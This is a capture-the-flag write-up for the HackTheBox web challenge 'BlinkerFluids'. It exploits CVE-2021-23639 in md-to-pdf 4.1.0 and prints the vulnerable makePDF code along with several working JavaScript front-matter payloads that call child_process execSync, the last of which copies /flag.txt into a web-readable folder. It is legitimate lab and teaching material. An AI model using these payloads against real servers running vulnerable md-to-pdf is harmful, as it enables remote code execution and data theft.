


# **BlinkerFluids**

It is another easy web challenge from HackTheBox with the following description.

## CHALLENGE DESCRIPTION</br>
Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

It is this type of Challenge, where you have to just do one search in google on the library used in the project and you got a vulnerability to use. So I found `CVE-2021-23639` in `md-to-pdf` thanks to we can inject some code and perform the RCE. The version used in the challenge is `4.1.0`, and the version where the vulnerability was fixed is `5.0.0` - great for us ;p.

The payload looks like this: 

```js
---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE
```

The vulnerable code is in `MDHelper.js` because we control the `markdown` variable which is used to prep PDF.

```js
const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}
```
## Not so fast!
When I used the payload I got an error, and the payload didn't work for me. But In **the commit**, which fixes the vuln I saw this line of code:



So the payload should look more like
```js
---js
((require("child_process")).execSync("id > /tmp/RCE.txt"))
---
```

rather then:
```js
---js((require("child_process")).execSync("id > /tmp/RCE.txt"))---
```

Let's add **missing slashes** to the payload and fix it, also change the command to one, that reads the **flag** and writes it to the file, to which we have access.

The final payload
```js
---js\n((require("child_process")).execSync("cat /flag.txt > /app/static/flag.txt"))\n---
```

http://\<IP>:\<PORT>/static/flag.txt




## Resources:
- [Commit](https://github.com/simonhaenisch/md-to-pdf/commit/a716259c548c82fa1d3b14a3422e9100619d2d8a)
- [Snyk md-to-pdf RCE](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880)
- [Issue with syntax - missing \n](https://github.com/11ty/eleventy/issues/1208)
